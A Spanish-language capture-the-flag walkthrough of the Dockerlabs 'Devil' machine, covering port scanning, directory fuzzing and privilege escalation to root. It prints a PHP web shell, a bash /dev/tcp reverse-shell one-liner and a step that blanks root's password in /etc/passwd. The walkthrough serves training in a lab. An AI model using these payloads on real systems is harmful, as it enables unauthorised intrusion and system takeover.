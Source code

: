 # devil

Máquina "Devil" de [Dockerlabs](https://dockerlabs.es)

Autor: [kaikoperez](https://github.com/kiket25)

Dificultad: Medio

![devil](../../../maquina-devil/img/deviil.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep 18 15:25:35 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-18 15:25:36 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: Drupal 10 (https://www.drupal.org)
|_http-title: Hackstry
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 18 15:25:51 2024 -- 1 IP address (1 host up) scanned in 15.43 seconds
```

Solo tenemos el puerto 80 abierto y `está corriendo apache httpd`, por lo que continuaremos desde el navegador.

**Puerto 80:**

![80](../../../maquina-devil/img/80.png)

Si nos fijamos al final, se nos nombra wordpress y en el propio codigo fuente hay cosas de wordpress, el problema es que si intentamos entrar a cualquier cosa relacionada con wordpress, nos va a redirigir a la misma página. Como sabemos, si intentamos entrar a alguna de eso nos redirige, pero... ¿que pasa si entramos a una carpeta en la que se indexe el contenido? como por ejemplo "wp-content/". Si vamos desde el navegador veremos una página en blanco, pero en wordpress siempre hay una carpeta uploads ahí, por lo que si nos metemos veremos una carpeta extraña llamada "esteestudirectorio", a la cual si entramos veremos una nota en morse que dice lo siguiente:

```css
MEJOR PRUEBA HA HACER FUZING PERO NO EN ESTE DIRECTORIO PRUEBA CON UN DIRECTORIO ATRAS.
```

Por lo que ahora recurriremos a `dirb` para hacer lo que nos dice la nota (fuzzing en wp-content):

```css
dirb http://172.17.0.2/wp-content/ -w
```

luego de que termine, veremos esto:

```css
---- Entering directory: http://172.17.0.2/wp-content/plugins/backdoor/ ----
+ http://172.17.0.2/wp-content/plugins/backdoor/index.php (CODE:200|SIZE:2135)                                                 
==> DIRECTORY: http://172.17.0.2/wp-content/plugins/backdoor/uploads/ 
```

Como vemos hay una carpeta "backdoor" en "./plugins/backdoor/" y tiene un index.php, por lo que si vemos desde el navegador, veremos lo siguiente:

![backdoor](../../../maquina-devil/img/backdoor.png)

## INTRUSION

Viendo que podemos subir archivos, y que hay una carpeta "uploads" en el mismo directorio, podemos subir un php malicioso que nos permita ejecutar comandos, por ejemplo yo uso este:

```php
<?php
system($_GET['command']);
?>
```

Este lo que va a hacer es que cuando lo subamos y entremos en el, podamos ejecutar comandos en la url poniendo esto:

```css
http://172.17.0.2/<snip>/backdoor/uploads/shell.php?command=<comando>
```

por lo que una vez subido vamos a el archivo.

Estando ahi escucharemos con netcat por el puerto que queramos `nc -nlvp <puerto>`, luego ponemos esto en la url:

```css
<snip>?command=bash -c 'bash -i >%26 /dev/tcp/<ip>/<puerto> 0>%261'
```

y ya estaremos dentro.

## ESCALADA DE PRIVILEGIOS

#### www-data

Hacemos un tratamiento de la tty y continuamos.

Ahora si vamos a `/home`, veremos que tenemos permisos de lectura en la home de andy. Ahora si ejecutamos `ls -Rla` en ese directorio, veremos lo siguiente:

```css
www-data@ad0c48cd34f2:/home$ ls -Rla andy/
andy/:
total 24
drwxr-xr-x 1 andy andy  154 Sep 11 23:00 .
drwxr-xr-x 1 root root   30 Sep 11 22:10 ..
-rwxr-xr-x 1 andy andy  491 Sep 18 20:25 .bash_history
-rwxr-xr-x 1 andy andy  220 Mar 31 10:41 .bash_logout
-rwxr-xr-x 1 andy andy 3771 Mar 31 10:41 .bashrc
-rwxr-xr-x 1 root root   13 Sep 11 23:00 .pista.txt
-rwxr-xr-x 1 andy andy  807 Mar 31 10:41 .profile
drwxr-xr-x 1 andy andy   38 Sep 11 22:33 .secret
-rwxr-xr-x 1 andy andy  867 Sep 11 22:31 .viminfo
drwxr-xr-x 1 root root   24 Sep 11 22:56 aquilatienes

andy/.secret:
total 20
drwxr-xr-x 1 andy andy    38 Sep 11 22:33 .
drwxr-xr-x 1 andy andy   154 Sep 11 23:00 ..
-rwxr-xr-x 1 andy andy   512 Sep 11 22:31 escalate.c
-rwxr-xr-x 1 andy andy 16176 Sep 11 22:33 ftpserver

andy/aquilatienes:
total 4
drwxr-xr-x 1 root root  24 Sep 11 22:56 .
drwxr-xr-x 1 andy andy 154 Sep 11 23:00 ..
-rwxr-xr-x 1 root root  73 Sep 11 22:55 password.txt
www-data@ad0c48cd34f2:/home$
```

Hay cosas interesantes:

`.pista.txt`

`/aquilatienes/password.txt`

`ftpserver`

`escalate.c`

Si leemos la pista y el password, veremos que nos dice que está en rot8000 (no pongo el password porque tiene un formato que no puedo copiar), por lo que si lo pasamos a texto, obtendremos esto:

```css
andy:laloca1
```

Por lo que ahora escalamos con `su andy` y su contraseña.

#### Andy

Si vamos a `.secret/` y leemos el "escalate.c", veremos que se fija nuestro uid y el de lucas y luego si coincide nos genera un bash, y si ejecutamos el otro script podremos a escalar a lucas:

```css
andy@ad0c48cd34f2:~/.secret$ ./ftpserver 
UID actual: 1001
EUID actual: 1001
lucas@ad0c48cd34f2:~/.secret$ 
```

#### Lucas

Siendo lucas, veremos que en su home hay una carpeta llamada ".game" y un archivo que tiene permisos SUID (porque está en rojo), y además el archivo .c que se usó para crearlo, el cual si leemos, nos genera una bash como root al poner el 7, por lo que lo ejecutamos y al poner un 7 escalaremos a root, pero el grupo sigue siendo andy, por lo que editamos con nano el `/etc/passwd` y borramos la "x" de root, y ahora seremos root totalmente:

![root](../../../maquina-devil/img/root.png)

Gracias por leer...
